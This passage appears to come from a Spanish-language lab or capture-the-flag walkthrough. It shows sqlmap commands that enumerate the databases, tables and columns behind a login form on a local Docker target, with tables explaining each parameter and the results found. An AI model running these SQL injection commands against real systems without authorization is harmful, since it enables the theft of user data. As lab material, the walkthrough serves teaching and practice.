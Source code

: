## 5. 💉 Pruebas de Inyección SQL con `sqlmap`

### a. Enumeración de bases de datos

```bash
sqlmap -u http://172.17.0.2/login.html --forms --dbs --batch
```

| Parte del Comando                                     | Explicación                                                                                         |
|-------------------------------------------------------|-----------------------------------------------------------------------------------------------------|
| `sqlmap`                                              | Ejecuta la herramienta `sqlmap`, utilizada para detectar y explotar vulnerabilidades SQL Injection. |
| `-u http://172.17.0.2/login.html`                     | URL objetivo donde se sospecha que hay un formulario vulnerable a SQLi.                             |
| `--forms`                                             | Indica a `sqlmap` que debe analizar los formularios HTML en la página para buscar inyecciones.      |
| `--dbs`                                               | Solicita a `sqlmap` que enumere todas las bases de datos disponibles en el servidor.                |
| `--batch`                                             | Ejecuta el escaneo en modo automático, sin hacer preguntas al usuario. Ideal para scripting.        |

**Bases de datos disponibles:**

- information_schema  
- mysql  
- performance_schema  
- sys  
- users ✅

### b. Tablas en la base de datos `users`

```bash
sqlmap -u http://172.17.0.2/login.html --forms -D users --tables
```

| Parámetro                  | Explicación                                                                                 |
|---------------------------|---------------------------------------------------------------------------------------------|
| `-D users`                | Especifica la base de datos objetivo (en este caso, `users`) sobre la que se trabajará.     |
| `--tables`                | Le dice a `sqlmap` que enumere todas las tablas contenidas dentro de la base de datos dada. |

| Tabla     |
|-----------|
| usuarios  |

### c. Columnas en la tabla `usuarios`

```bash
sqlmap -u http://172.17.0.2/login.html --forms -D users -T usuarios --columns
```

| Parámetro                  | Explicación                                                                                   |
|---------------------------|-----------------------------------------------------------------------------------------------|
| `-T usuarios`             | Indica la tabla específica (`usuarios`) dentro de la base de datos seleccionada.              |
| `--columns`               | Solicita a `sqlmap` que enumere todas las columnas disponibles en la tabla especificada.      |
